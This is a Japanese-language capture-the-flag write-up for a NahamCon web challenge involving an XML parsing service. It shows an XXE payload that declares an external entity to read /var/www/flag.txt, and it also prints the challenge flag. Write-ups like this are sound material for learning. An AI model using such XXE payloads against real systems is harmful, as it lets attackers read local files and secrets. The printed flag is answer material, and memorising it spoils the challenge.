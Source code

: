 # EXtravagant:Web:50pts
**I've been working on a XML parsing service. It's not finished but there should be enough for you to try out.**  
**The flag is in /var/www**  

**Connect with:**  
- [http://challenge.nahamcon.com:30863](http://challenge.nahamcon.com:30863/)  

# Solution
URLにアクセスすると謎のサイトのようだ。  
EXtravagant XML  
[Home](site/home.png)  
フラグは`/var/www`にあり、XMLをパースするサービスのようである。  
[Trial](site/trial.png)でXMLファイルをアップロードし、[View](site/view.png)でファイル名を指定して確認できるらしい。  
XXEを狙う。  
`/var/www`にフラグがあるようなので以下に示すxxe.xmlで`/var/www/flag.txt`を読み取る。  
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///var/www/flag.txt" >]><foo>&xxe;</foo>
```
アップロードし、ファイルを確認するとflagが得られた。  
flag  
[flag.png](site/flag.png)  

## flag{639b72f2dd0017f454c44c3863c4e195}